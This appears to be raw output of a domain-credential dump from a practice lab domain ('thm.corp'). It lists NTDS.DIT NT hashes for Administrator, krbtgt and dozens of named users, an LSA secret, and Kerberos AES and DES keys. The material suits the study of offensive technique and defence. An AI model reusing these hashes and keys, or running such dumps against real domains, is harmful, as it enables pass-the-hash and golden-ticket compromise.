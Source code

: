  0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...
NL$KM:8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:067a84e5afaed843ed4a8fdac5facac3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ce852eb247bbe2e5818cd8d66ed19ec5:::
thm.corp\3091731410SA:1111:aad3b435b51404eeaad3b435b51404ee:9e4250bde014b547b331670c9de6522a:::
thm.corp\ERNESTO_SILVA:1112:aad3b435b51404eeaad3b435b51404ee:067a84e5afaed843ed4a8fdac5facac3:::
thm.corp\TRACY_CARVER:1113:aad3b435b51404eeaad3b435b51404ee:a5988a49e60fe1120f498da30caa41cd:::
thm.corp\SHAWNA_BRAY:1114:aad3b435b51404eeaad3b435b51404ee:54345a04a2fd1858bf1f3cb46bcce704:::
thm.corp\CECILE_WONG:1115:aad3b435b51404eeaad3b435b51404ee:067a84e5afaed843ed4a8fdac5facac3:::
thm.corp\CYRUS_WHITEHEAD:1116:aad3b435b51404eeaad3b435b51404ee:3778e42b1e69d1e94247a8da49bfa7b1:::
thm.corp\DEANNE_WASHINGTON:1117:aad3b435b51404eeaad3b435b51404ee:2a814e21a86508450b42184f76d0db5b:::
thm.corp\ELLIOT_CHARLES:1118:aad3b435b51404eeaad3b435b51404ee:b1742442ac0e99f0175d48c763d1c499:::
thm.corp\MICHEL_ROBINSON:1119:aad3b435b51404eeaad3b435b51404ee:bc2f8695333a21cb4aa01f2e907f6d73:::
thm.corp\MITCHELL_SHAW:1120:aad3b435b51404eeaad3b435b51404ee:98ff3cd616f710a5aa50cb0d39fa71ad:::
thm.corp\FANNY_ALLISON:1121:aad3b435b51404eeaad3b435b51404ee:14bb57ce92d0abd1961e20abaa96ea0a:::
thm.corp\JULIANNE_HOWE:1122:aad3b435b51404eeaad3b435b51404ee:2ebf173e7885e890e7e405eff3058905:::
thm.corp\ROSLYN_MATHIS:1123:aad3b435b51404eeaad3b435b51404ee:370e0f37497559a91ff115669277e339:::
thm.corp\DANIEL_CHRISTENSEN:1124:aad3b435b51404eeaad3b435b51404ee:ac42e104e98a78704794c934faebf369:::
thm.corp\MARCELINO_BALLARD:1125:aad3b435b51404eeaad3b435b51404ee:fbcee21eab6256be6d3d6257cc0ae4a2:::
thm.corp\CRUZ_HALL:1126:aad3b435b51404eeaad3b435b51404ee:54345a04a2fd1858bf1f3cb46bcce704:::
thm.corp\HOWARD_PAGE:1127:aad3b435b51404eeaad3b435b51404ee:be6fab82219db563a8252a0216632a83:::
thm.corp\STEWART_SANTANA:1128:aad3b435b51404eeaad3b435b51404ee:25c36f56de91b11e42db3830334decd8:::
thm.corp\LINDSAY_SCHULTZ:1130:aad3b435b51404eeaad3b435b51404ee:b322c000e78e139da945c9f1dc1f0210:::
thm.corp\TABATHA_BRITT:1131:aad3b435b51404eeaad3b435b51404ee:cea30062373feb964175952ee108c260:::
thm.corp\RICO_PEARSON:1132:aad3b435b51404eeaad3b435b51404ee:5cd05b29055ca4a3f3c8866b355960a3:::
thm.corp\DARLA_WINTERS:1133:aad3b435b51404eeaad3b435b51404ee:54345a04a2fd1858bf1f3cb46bcce704:::
thm.corp\ANDY_BLACKWELL:1134:aad3b435b51404eeaad3b435b51404ee:31202949e1809026ef9bef0879800369:::
thm.corp\LILY_ONEILL:1135:aad3b435b51404eeaad3b435b51404ee:949ce911e35575611bc6dfc24ab7771f:::
thm.corp\CHERYL_MULLINS:1136:aad3b435b51404eeaad3b435b51404ee:fb59d7a606b5cc62da30c853682895f5:::
thm.corp\LETHA_MAYO:1137:aad3b435b51404eeaad3b435b51404ee:17c3b1185d18e99969d5ebab109a378e:::
thm.corp\HORACE_BOYLE:1138:aad3b435b51404eeaad3b435b51404ee:067a84e5afaed843ed4a8fdac5facac3:::
thm.corp\CHRISTINA_MCCORMICK:1139:aad3b435b51404eeaad3b435b51404ee:4cebc9ba64d778c0cdff5f784a959cdd:::
thm.corp\3811465497SA:1141:aad3b435b51404eeaad3b435b51404ee:eb0885d1955f642d2ae09b8d6944d69e:::
thm.corp\MORGAN_SELLERS:1142:aad3b435b51404eeaad3b435b51404ee:257a17ce10f75d09241820523c03093e:::
thm.corp\MARION_CLAY:1143:aad3b435b51404eeaad3b435b51404ee:78fbe1703076643084c223e9f30b4b2c:::
thm.corp\3966486072SA:1144:aad3b435b51404eeaad3b435b51404ee:c2920d45332ddb9b9c955ae8d01fbd49:::
thm.corp\TED_JACOBSON:1146:aad3b435b51404eeaad3b435b51404ee:6eccab6de489cd86977f6cd3768c3101:::
thm.corp\AUGUSTA_HAMILTON:1147:aad3b435b51404eeaad3b435b51404ee:3059fa4d2174c9fa4d12e84fd388dcb0:::
thm.corp\TREVOR_MELTON:1148:aad3b435b51404eeaad3b435b51404ee:067a84e5afaed843ed4a8fdac5facac3:::
thm.corp\LEANN_LONG:1149:aad3b435b51404eeaad3b435b51404ee:067a84e5afaed843ed4a8fdac5facac3:::
thm.corp\RAQUEL_BENSON:1150:aad3b435b51404eeaad3b435b51404ee:ee384706745bbe70b87f7e6e77c6e2d0:::
thm.corp\AUTOMATE:1156:aad3b435b51404eeaad3b435b51404ee:5858d47a41e40b40f294b3100bea611f:::
HAYSTACK$:1008:aad3b435b51404eeaad3b435b51404ee:98e36148fc1e4045cca325254374dfac:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:f2313ddc9686cd8ea1e67586173d3218bdc897a3c717dea005d31d8280291d75
Administrator:aes128-cts-hmac-sha1-96:a221004822c82f96664e247308ce6904
Administrator:des-cbc-md5:1cdac7ae988a5b32
krbtgt:aes256-cts-hmac-sha1-96:bed293d4c6efc6bb4fe48d9ff908044d99dd5c04768d76d25cb7743c3689f269
